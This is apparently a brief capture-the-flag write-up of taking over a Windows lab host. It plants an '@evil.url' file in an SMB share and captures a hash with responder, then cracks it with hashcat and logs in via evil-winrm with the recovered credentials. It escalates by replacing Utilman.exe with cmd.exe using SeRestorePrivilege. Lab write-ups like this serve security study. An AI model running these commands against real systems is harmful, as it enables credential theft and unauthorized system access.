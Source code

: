
Os info using enum4linux:![](attachment/c9a69b7dacb4f849274eb4505b88b0de.png)
# 445

We discover smb shares:![](attachment/2ab49d50054e11d68c232c9a7a74cc02.png)
DocumentsShare seems interesting.

Now putting @evil.url in DocumentsShare:
![](attachment/16c661e04f7d0efe5c7f8e481d274012.png)
And running responder:
```
sudo responder -A -I tun0
```
We got a hash:
![](attachment/d9e69db36fcf0239c107320d66d0cd62.png)
We can crack this:
```
hashcat -m 5600 hashes.txt '/home/aditya/Documents/Kali/rockyou.txt' -O
```
![](attachment/0be6af67f1559c7dd0ed285a524d9e95.png)
We can connect through evil-winrm:
```
evil-winrm -i 192.168.182.172 -u anirudh -p SecureHM
```
![](attachment/9c44690a9f01b41db8106c50cdf5a810.png)

We have SeRestorePrivilege so we can access all files:
```
ren "C:/Windows/System32/Utilman.exe" Utilman.old
ren "C:/Windows/System32/cmd.exe" Utilman.exe
```
Now connect via rdesktop and do `win + u`
![](attachment/1df4186968cd1333970287bff8505781.png)\
